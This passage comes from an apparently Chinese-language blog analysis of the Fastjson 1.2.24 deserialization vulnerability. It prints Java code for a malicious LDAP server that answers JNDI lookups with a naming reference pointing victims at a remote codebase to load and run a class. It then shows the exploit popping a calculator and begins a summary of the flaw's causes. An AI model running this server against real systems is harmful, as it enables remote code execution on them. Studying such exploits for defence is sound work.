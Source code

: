 ```java

    private static class OperationInterceptor extends InMemoryOperationInterceptor {

        private URL codebase;

        public OperationInterceptor ( URL cb ) {
            this.codebase = cb;
        }

        @Override
        public void processSearchResult ( InMemoryInterceptedSearchResult result ) {
            String base = result.getRequest().getBaseDN();
            Entry e = new Entry(base);
            try {
                sendResult(result, base, e);
            }
            catch ( Exception e1 ) {
                e1.printStackTrace();
            }
        }

        protected void sendResult ( InMemoryInterceptedSearchResult result, String base, Entry e ) throws LDAPException, MalformedURLException {
            URL turl = new URL(this.codebase, this.codebase.getRef().replace('.', '/').concat(".class"));
            System.out.println("Send LDAP reference result for " + base + " redirecting to " + turl);
            e.addAttribute("javaClassName", "foo");
            String cbstring = this.codebase.toString();
            int refPos = cbstring.indexOf('#');
            if ( refPos > 0 ) {
                cbstring = cbstring.substring(0, refPos);
            }
            e.addAttribute("javaCodeBase", cbstring);
            e.addAttribute("objectClass", "javaNamingReference"); //$NON-NLS-1$
            e.addAttribute("javaFactory", this.codebase.getRef());
            result.sendSearchEntry(e);
            result.setResult(new LDAPResult(0, ResultCode.SUCCESS));
        }
    }
}
```

运行弹出计算器：

![image-20220704163456795](https://cosmoslin.oss-cn-chengdu.aliyuncs.com/img2/image-20220704163456795.png)



### 总结

在分析完之后我们再来梳理一下，产生漏洞的原因，以及1.2.24 中利用方法的限制
